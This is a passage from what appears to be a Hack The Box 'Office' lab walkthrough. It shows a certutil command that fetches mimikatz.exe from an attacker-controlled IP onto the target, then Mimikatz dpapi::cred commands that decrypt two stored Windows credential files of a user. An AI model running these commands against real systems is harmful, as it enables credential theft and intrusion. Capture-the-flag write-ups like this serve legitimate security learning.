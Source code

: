 `certutil.exe -urlcache -split -f http://10.10.14.36:1236/mimikatz.exe`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-56.png)


> **`dpapi::cred`**: This module in Mimikatz is used for handling DPAPI (Data Protection API) credentials. DPAPI is a Windows feature that allows applications to securely store sensitive data such as passwords, encryption keys, and other confidential information.

We will use `dpapi::cred` to pass files containing credentials and retrieve our guidmaster key.

We can use this key to access stored credentials.

First file:

`dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\credentials\84F1CAEEBF466550F4967858F9353FB4`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-57.png)

Second file:

`dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\credentials\18A1927A997A794B65E9849883AC3F3E`
